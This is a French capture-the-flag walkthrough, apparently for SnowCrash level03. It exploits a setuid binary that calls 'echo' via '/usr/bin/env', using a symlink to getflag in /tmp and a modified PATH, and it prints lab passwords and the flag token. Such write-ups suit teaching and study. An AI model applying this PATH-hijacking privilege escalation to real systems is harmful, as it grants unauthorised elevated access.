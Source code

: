 # Level03: Exploit de lien symbolique via '/usr/bin/env echo'

> login:password -> *`level03:kooda2puivaav1idi4f57q8iq`*
```
:~$ su level03
Password:kooda2puivaav1idi4f57q8iq
```
---

```
:~$ pwd
/home/user/level03
```

```
:~$ ls -la
...
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
...

:~$ file level03
setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x3bee584f790153856e826e38544b9e80ac184b7b, not stripped
```

Le Home posséde un exécutable nommé level03.

```
:~$ ./level03
Exploit me
```

On doit essayer de le décortiquer pour l'exploiter.

```
:~$ strings level03
...
/usr/bin/env echo Exploit me
...
```

Le programme utilise `echo` via `/usr/bin/env`, ce qui va nous être utile pour appeler la commande `getflag`.
On va créer un lien symbolique de `echo` vers `getflag`.

```
:~$ ln -s /bin/getflag /tmp/echo
```

on va ensuite pouvoir ajouter `tmp` dés le début de PATH afin que le lien soit appelé

```
:~$ export PATH=/tmp:$PATH
```

On peux alors relancer l'exécutable

```
:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

Le flag nous permet de se connecter au level04
`level04:qi0maab88jeaj46qoumi7maus`